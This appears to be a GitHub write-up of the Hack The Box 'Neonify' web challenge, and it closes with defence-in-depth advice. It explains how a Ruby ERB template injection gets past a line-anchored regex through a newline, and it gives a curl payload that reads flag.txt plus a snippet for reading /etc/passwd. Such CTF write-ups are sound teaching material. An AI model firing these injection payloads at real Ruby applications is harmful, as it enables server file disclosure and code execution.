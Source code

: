 # HTB-Challenges-Web-Neonify

## Challenge Description
It's time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!

![Screen Shot 2023-12-07 at 05 07 48](https://github.com/patzj/HTB-Challenges-Web-Neonify/assets/10325457/ddc1b532-62e7-406f-96a6-b9098213469d)

## Reconnaissance
Examining the challenge's source code reveals that the application is coded in Ruby, a programming language with which I lack any experience. Moreover, there are conspicuous indications of template injection, strongly suggesting that the challenge will likely center around exploiting this vulnerability.
```erb
<form action="/" method="post">
    <p>Enter Text to Neonify</p><br>
    <input type="text" name="neon" value="">
    <input type="submit" value="Submit">
</form>
<h1 class="glow"><%= @neon %></h1>
```

The vulnerable endpoint is also protected by regex. This made me think it's going to be tough because, even if I try to URL-encode the payload, I can't get past the set pattern.
```rb
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
```

## Scanning
Even though the app has some security measures, I still attempted to check for template injection using this code `<%= 7 * 7 %>` or `%3C%25%3D%207%20%2A%207%20%25%3E`. Unfortunately, it didn't do the trick. I have to come up with a more creative approach.

![Screen Shot 2023-12-07 at 05 35 36](https://github.com/patzj/HTB-Challenges-Web-Neonify/assets/10325457/fa1817c3-131b-4607-a7f4-f12d0539651f)

As a software developer, one of our strengths is finding solutions through *Googling*. I quickly came across a blog discussing a line-feed bypass in Ruby regex. If you're interested, you can check it out at this link: https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/.

## Exploitation
Now that I figured out how to get around the app's protection, I need to find a way to add my own code. Since I can't use the app directly, I'm using a tool called `curl`. I found a code snippet that can read a file on the server: `<%= File.open('/etc/passwd').read %>`. The last step is to piece everything together and send it as my payload.

```sh
curl -X POST -d 'neon=shiftentertonextline
%3C%25%3D%20File%2Eopen%28%27flag%2Etxt%27%29%2Eread%20%25%3E' http://127.0.0.1:1337
```

Flag captured!

```html
<!DOCTYPE html>
<html>
<head>
    <title>Neonify</title>
    <link rel="stylesheet" href="stylesheets/style.css">
    <link rel="icon" type="image/gif" href="/images/gem.gif">
</head>
<body>
    <div class="wrapper">
        <h1 class="title">Amazing Neonify Generator</h1>
        <form action="/" method="post">
            <p>Enter Text to Neonify</p><br>
            <input type="text" name="neon" value="">
            <input type="submit" value="Submit">
        </form>
        <h1 class="glow">shiftentertonextline
HTB{f4k3_fl4g_f0r_t3st1ng}</h1>
    </div>
</body>
</html>
```

## Post-Exploitation
Even a seemingly impenetrable regex has its own weak spot. As a software developer, this challenge is a reminder to always implement a defense-in-depth strategy, such as performing syntactic and semantic checks of user input, employing context-aware output encoding, and implementing the least privilege principle, to name a few. This way, the weakness of one defense can be supplemented by other defenses, making the system more secure.
